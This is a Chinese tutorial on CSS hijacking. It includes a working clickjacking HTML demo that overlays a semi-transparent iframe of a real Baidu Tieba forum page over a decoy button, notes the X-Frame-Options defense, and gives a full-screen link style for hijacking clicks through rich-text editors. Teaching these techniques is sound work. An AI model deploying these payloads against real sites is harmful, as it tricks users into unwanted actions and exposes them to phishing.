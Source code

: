 # CSS劫持攻击
`CSS`劫持是一种并不很受重视的劫持方式，但是其也有一定的危害，且由于其并不一定需要依赖`JavaScript`，这使得此种攻击方式更容易实现。

## ClickJacking点击劫持
当访问某网站时，利用`CSS`将攻击者实际想让你点击的页面进行透明化隐藏，然后在页面后显示 一些东西诱导让你点击，点击后则会在用户毫不知情的情况下做了某些操作，这就是点击劫持`ClickJacking`。

### iframe覆盖
假如现在我们有个贴吧，想让人关注，可以构造一个钓鱼页面，诱导用户点击，实际上攻击者想要用户点击的关注页面是个透明的，用户如果在网页端登录了贴吧，就会在毫不知情的情况下关注了贴吧，这属于危害较小的情况，若是搭配一些表单诱导用户在页面输入某些敏感信息甚至可以构成财产损失的情况。

```html
<!DOCTYPE HTML>
<html>
<meta content="text/html; charset=utf8" />
<head>
<title>ClickJacking点击劫持</title>
<style>
     html,body,iframe{
         display: block;
          height: 100%;
          width: 100%;
          margin: 0;
          padding: 0;
          border:none;
     }
     iframe{
          opacity:0.2;
          position:absolute;
          z-index:2;
     }
     div{
          display: flex;
          justify-content: space-around;
          position:absolute;
          top: 335px;
          left: 310px;
          z-index: 1;
          width: 300px;
          height: 26px;
     }
</style>
</head>
     <body>
          <!-- 例子中的按钮位置是写定的，在不同分辨率下并不一定合适，应该动态确定按钮位置，但是作为一个Demo就不作过多操作了 -->
          <div>那些不能说的秘密<button>查看详情</button></div>
          <iframe src="https://tieba.baidu.com/f?kw=%E6%96%97%E7%A0%B4%E8%8B%8D%E7%A9%B9%E5%8A%A8%E6%BC%AB"></iframe>
     </body>
</html>
```
### 防御
`X-FRAME-OPTIONS`是目前最可靠的方法。  
`X-FRAME-OPTIONS`是微软提出的一个`HTTP`头，专门用来防御利用`iframe`嵌套的点击劫持攻击。
```
DENY // 拒绝任何域加载
SAMEORIGIN // 允许同源域下加载
ALLOW-FROM // 可以定义允许frame加载的页面地址
```

## CSS劫持流量
关于诱导用户点击进入网站的操作，利用`CSS`劫持也不失为一个好的思路，无论是论坛，还是邮件都有一个富文本编辑器，如果网站并未注意此种攻击方式并特殊处理，便很容易被利用。  
将富文本插入一个链接，在正常情况下应该是`<a href="xxx"></a>`，假如我们为其赋予一个样式，或者将其内部包裹一个字体的样式，将样式设置为`display: block;z-index: 100000;position: fixed;top: 0;left: 0;width: 1000000px;height: 100000px;`,也是就是让链接作为块级元素充满整个屏幕，则用户无论点击页面中的任何地方都会跳转到你指定的页面，这就将流量劫持到了你的页面，若用户并未注意到`url`的改变，还可以在跳转的新页面进行钓鱼。

## 每日一题

```
https://github.com/WindrunnerMax/EveryDay
```
